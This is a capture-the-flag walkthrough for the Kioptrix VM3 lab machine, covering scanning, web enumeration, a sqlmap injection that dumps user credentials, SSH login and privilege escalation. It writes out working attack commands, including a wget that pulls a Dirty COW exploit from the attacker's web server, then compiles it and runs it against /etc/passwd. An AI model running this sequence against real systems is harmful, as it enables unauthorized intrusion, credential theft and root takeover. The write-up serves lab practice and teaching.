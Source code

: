 Kioptrix VM3 Walkthrough

Prerequisites:

1. Kioptrix VM3 image running on VMware.


2. Attacker machine (e.g., Kali Linux).


3. Basic knowledge of Linux and penetration testing tools.



1. Network Configuration and Target Information

Ensure that the Kioptrix VM3 and the attacking machine are on the same network. For this example, let's assume the target IP address of the Kioptrix VM3 is 192.168.48.149

To identify the target’s IP address in your network, run a network scan from your attacking machine using nmap:

nmap 192.168.48.1/24 -T4

This command scans the subnet 192.168.48.1/24 with a timing option -T4 for faster results.

Sample Output:

Nmap scan report for 192.168.48.149
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)

From this output, we can see that the target IP 192.168.48.149 has SSH (port 22) and HTTP (port 80) open.

2. Bind Target IP to Domain Name

Next, bind the target’s IP address to a domain name in your /etc/hosts file to make it easier to reference:

sudo nano /etc/hosts

Add the following line to the file:

192.168.48.149 kioptrix3.com

Verify the changes:

cat /etc/hosts

The output should include:

127.0.0.1 localhost
127.0.1.1 kali
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.168.48.149 kioptrix3.com

3. Service Enumeration (Port Scanning)

Run a full service version scan on the target to identify running services:

nmap -sV 192.168.48.149

Sample Output:

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch

From this output, we know the target is running Apache on port 80 and OpenSSH on port 22.

4. Enumerating HTTP Services

Port 80 (HTTP) is open, so we access the web application by opening a browser and navigating to:

http://kioptrix3.com/

To further enumerate hidden directories, use Gobuster with a wordlist:

gobuster dir -u http://kioptrix3.com/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

Sample Output:

/modules (Status: 301)
/gallery (Status: 301)
/data (Status: 403)
/core (Status: 301)
/style (Status: 301)
/cache (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)

Here, directories like /modules, /gallery, and /phpmyadmin stand out as interesting targets.

5. Web Application Vulnerabilities

By using Nikto to scan the /gallery directory:

nikto -h http://kioptrix3.com/gallery

Sample Nikto Output:

/gallery/: The X-Content-Type-Options header is not set.
PHP/5.2.4-2ubuntu5.6 appears to be outdated.
Apache/2.2.8 appears to be outdated.
...
/gallery/db.sql: DATABASE SQL FOUND!

We have found a SQL database located in /gallery/db.sql.

6. SQL Injection Exploitation

Using the SQLmap tool, we exploit a SQL injection vulnerability found in the URL parameter id=1 of the /gallery.php page:

sqlmap --batch --banner -u http://kioptrix3.com/gallery/gallery.php?id=1 --dump

SQLmap Output:

[INFO] fetching current database
[INFO] fetching tables for database: 'gallery'
[INFO] retrieved: 'dev_accounts'
[INFO] fetched: 'dev_accounts' table entries

SQLmap successfully extracts data from the dev_accounts table, revealing usernames and password hashes:

+----+---------------------------------------------+------------+
| id | password                                   | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+

We now have the username and password hash for both users.

7. Accessing SSH with Cracked Password

Using the extracted credentials, we try to log in via SSH with the username loneferret and password starwars:

ssh loneferret@192.168.48.149

If the connection fails due to an unsupported host key algorithm, use the following:

ssh loneferret@192.168.48.149 -oHostKeyAlgorithms=+ssh-rsa

Once logged in, we can explore the file system and check for privilege escalation opportunities.

8. Privilege Escalation

To elevate our privileges to root, first check the sudo privileges:

sudo -l

Output:

User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht

Since we have sudo access to /usr/local/bin/ht, we can execute this binary with root privileges.

Alternatively, we could look for SUID binaries or vulnerabilities like Dirty COW:

searchsploit linux/local/40839

Copy the exploit to your machine:

python3 -m http.server 8000
wget http://192.168.48.157:8000/40839.c

Compile and run the exploit:

gcc -pthread 40839.c -o dirty -lcrypt
./dirty /etc/passwd

This would allow us to overwrite the /etc/passwd file, granting us root access.


---

Note: The use of these tools should be restricted to authorized environments only, such as Capture the Flag (CTF) challenges, penetration testing with permission, or educational purposes. Always have explicit consent before testing systems.

